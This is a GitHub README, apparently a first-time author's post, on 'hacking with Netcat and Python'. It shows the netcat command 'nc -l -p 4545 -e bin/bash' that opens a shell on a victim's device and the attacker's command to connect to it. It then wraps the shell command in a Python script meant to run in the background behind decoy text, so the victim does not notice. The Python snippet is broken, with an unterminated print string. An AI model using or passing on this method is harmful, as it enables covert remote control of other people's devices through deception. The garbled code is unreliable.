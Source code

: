 # Hacking-with-Netcat-and-Python
In this method, with the help of [Netcat tool](https://nmap.org/ncat/) you can create a [reverse shell](https://www.acunetix.com/blog/web-security-zone/what-is-reverse-shell/) on the victims device, and if you are on the same network you can easily access it. But the problem here is that you cannot always have access to the victims device to execute the ***netcat command*** soo, I got an idea, what if you write a python script which will automate the command for you, and if you add some fancy code that the victim will see on his device before creating a shell, that makes it more appealing. So in this post, I will share this method with you.

## Is it my idea ??
 I think, I got this idea while solving the machines/box. Where, in any input box if you type a command that lets you have a reverse shell on the targets website and you get a shell access on the webserver. All I did was just overthink and take the idea to a next level.

## A Personal note from writer.
 This is my first time creating a proper Github post, soo plz let me know if there is anything missing or something, I did wrong. 

# Method
Its a simple but very effective way that a hacker might use to hack their Target. In this type of attack, the attacker will be on your same network as you and send a python script that if you execute, will open a shell on a certain port that the attacker might connect to and try to do anything on your device. Lets see how its Done...

First Lets understand how to create a Reverse shell with Netcat command, Also if you get any errors plz check the netcat manual or do some research.

## How to create a basic Reverse Shell

***Victim's Device :***
        
  First you need netcat installed on your victim's device, if it's an Android or IOS then install it via Termux or iSH, and if it's Win or Mac install it through [nmap website](https://nmap.org/download.html) (netcat is pre-installed in linux). After installing netcat you just have to open a port where your device will connect (in this example the port will be "4545") and after connection with the "e" flag we will tell the device which file to execute.
```
nc -l -p 4545 -e bin/bash
```

***Target Device :***

  On your device you also need netcat installed, then as you know the port which is open you can directly connect on it. To connect you must also know the target's IP.
```
nc <IP> 4545
```

And **congratulation** you're now connected to your target device. But, there are chances that target might find it and try to interupt in between, To avoid that we can try my method.

# My Method

For this you need to create a python script which will run this netcat command in the background so the victim will not see it and we can do our work, Also we will add some text that will be displayed

```
import os
print("
os.system("nc -l -p 4545 -e bin/bash")
```
